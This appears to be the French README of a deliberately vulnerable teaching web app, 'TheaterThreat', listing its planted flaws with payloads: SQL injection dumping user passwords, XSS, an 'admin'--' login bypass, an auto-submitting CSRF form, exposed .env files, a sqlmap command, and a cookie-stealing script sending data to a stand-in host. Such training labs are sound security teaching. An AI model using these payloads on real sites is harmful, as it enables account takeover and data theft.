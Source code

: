 # TheaterThreat - Plateforme Pédagogique de Sécurité Web

## 🚀 Installation

### Version Non-Sécurisée
Une application délibérément vulnérable pour apprendre la cybersécurité.

### Étapes pour lancer le site :
1. **Cloner le projet :**
    ```bash
    git clone https://github.com/votre-repo/theaterthreat-vulnerable.git
    cd theaterthreat-vulnerable
    ```

2. **Lancer avec Docker :**
    ```bash
    docker-compose up -d
    ```

3. **Accéder au site :**
    Ouvrez votre navigateur et accédez à l'URL suivante : `http://localhost:8080`

---

## 🔥 Failles Implantées (À Tester)

### 1. Injection SQL
- **Attaque :**
  ```sql
  /?search=' UNION SELECT username, password FROM users--
  ```
- **Impact :** Vol de données sensibles (mots de passe en clair).
- **Où tester :** Champ de recherche ou formulaire de login.

### 2. Cross-Site Scripting (XSS)
- **Attaque :**
  ```html
  /?xss=<script>alert('Pwned!')</script>
  ```
- **Impact :** Exécution de code malveillant dans le navigateur des victimes.
- **Où tester :** Tout champ de saisie ou paramètre URL.

### 3. Bypass d'Authentification
- **Attaque :**
  ```
  Identifiant : admin'--
  Mot de passe : [vide]
  ```
- **Impact :** Accès admin sans mot de passe.
- **Où tester :** Page de login (`/login.php`).

### 4. Accès Non Autorisé
- **Attaque :**
  ```
  /admin.php  # Accès sans être connecté
  ```
- **Impact :** Modification/suppression de données sans permission.
- **Où tester :** URLs sensibles sans vérification de session.

### 5. CSRF (Cross-Site Request Forgery)
- **Attaque :**
  ```html
  <!-- Sur un site malveillant -->
  <form action="http://theaterthreat/admin/delete_all" method="POST">
     <button>Cliquez ici</button>
  </form>
  <script>document.forms[0].submit()</script>
  ```
- **Impact :** Actions non autorisées déclenchées à l'insu de l'utilisateur.
- **Où tester :** Actions sensibles (changement d'email, suppression).

### 6. Exposition de Données
- **Attaque :**
  ```
  /.env
  /config.php.bak
  ```
- **Impact :** Fuite de clés secrètes et configurations.
- **Où tester :** Accès direct aux fichiers sensibles.

---

## 🛠 Comment Tester ?

### Méthode Manuelle
- **Injection SQL :**
  - Entrez `' OR 1=1--` dans le champ de recherche → Tous les DVDs s'affichent.
  - Essayez `' UNION SELECT 1,username,password,1 FROM users--` pour voler les identifiants.

- **XSS :**
  - Ajoutez `<script>alert(1)</script>` dans n'importe quel champ → Une alerte s'affiche.

- **Bypass Auth :**
  - Connectez-vous avec `admin'--` et n'importe quel mot de passe → Accès admin.

- **CSRF :**
  - Créez un fichier HTML avec le formulaire ci-dessus → Ouverture déclenche une suppression.

### Outils Automatisés
- **SQLMap pour l'injection SQL :**
  ```bash
  sqlmap -u "http://localhost:8080/?search=test" --dbs
  ```
- **Burp Suite :**
  Interceptez les requêtes et modifiez les paramètres.

---

## 📚 Scénarios Pédagogiques

- **Démo XSS :**
  Montrez comment voler un cookie de session.
  ```javascript
  <script>fetch('http://attaquant.com/?cookie='+document.cookie)</script>
  ```

- **Démo SQLi :**
  Affichez tous les utilisateurs via :
  ```sql
  ' UNION SELECT 1,username,password,1 FROM users--
  ```

- **Démo CSRF :**
  Créez une fausse page qui supprime un compte silencieusement.

---

## 🛡 Comparaison Version Sécurisée

| Faille              | Version Vulnérable | Version Sécurisée         |
|---------------------|--------------------|---------------------------|
| Injection SQL       | ✅ Exploitable    | ❌ Requêtes paramétrées    |
| XSS                 | ✅ Possible       | ❌ Échappement HTML        |
| Bypass Auth         | ✅ Fonctionne     | ❌ 2FA/Hash bcrypt         |
| CSRF                | ✅ Non-protégé    | ❌ Tokens uniques          |

---

## ⚠️ Consignes de Sécurité

- Ne pas déployer en production.
- Utiliser uniquement en réseau local isolé.
- Effacer les données sensibles après utilisation.
